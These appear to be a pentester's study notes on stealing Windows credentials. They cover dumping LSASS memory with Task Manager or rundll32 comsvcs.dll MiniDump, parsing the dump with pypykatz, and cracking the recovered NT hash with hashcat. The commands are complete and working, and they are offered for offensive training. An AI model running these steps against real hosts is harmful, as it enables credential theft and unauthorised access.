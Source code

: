 
>In addition to getting copies of the SAM database to dump and crack hashes, we will also benefit from targeting LSASS. As discussed in the `Credential Storage` section of this module, LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems.


![[lsassexe_diagram.png]] 

#### Task Manager Method

With access to an interactive graphical session with the target, we can use task manager to create a memory dump. This requires us to:

![[taskmanagerdump.png]]

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

> the file will be save here  as lsass.dump

```c
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

	We transfer the file and crack it offline using the same approach with sam files 

#cmd #sam_transfer #lsass

### Rundll32.exe & Comsvcs.dll Method

>The Task Manager method is dependent on us having a GUI-based interactive session with a target. We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line. It is important to note that modern anti-virus tools recognize this method as malicious activity.

#### Finding LSASS PID in cmd

From cmd, we can issue the command `tasklist /svc` and find lsass.exe and its process ID in the PID field.

```c
C:\Windows\system32> tasklist /svc
```

#cmd #lsass #pid

#### Finding LSASS PID in PowerShell

```c
PS C:\Windows\system32> Get-Process lsass

```powershell-session

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```
#### Creating lsass.dmp using PowerShell

With an elevated PowerShell session, we can issue the following command to create the dump file:

```c
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

#powershell #lsass #pid #dumping 


## Using Pypykatz to Extract Credentials

> Once we have the dump file on our attack host, we can use a powerful tool called [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file. Pypykatz is an implementation of Mimikatz written entirely in Python. 

#### Running Pypykatz

The command initiates the use of `pypykatz` to parse the secrets hidden in the LSASS process memory dump. We use `lsa` in the command because LSASS is a subsystem of `local security authority`, then we specify the data source as a `minidump` file, proceeded by the path to the dump file (`/home/peter/Documents/lsass.dmp`) stored on our attack host. Pypykatz parses the dump file and outputs the findings:

```
$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

Several authentication protocols from the output: 
1. MSV
2. WDIGEST
3. Kerberos
4. DPAPI

#pypykatz #dumping #lsass 

## Cracking the NT Hash with Hashcat

> Now we can use Hashcat to crack the NT Hash. In this example, we only found one NT hash associated with the Bob user, which means we won't need to create a list of hashes as we did in the `Attacking SAM` section of this module. After setting the mode in the command, we can paste the hash, specify a wordlist, and then crack the hash.

```
$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

#hashcat #cracking #ntlm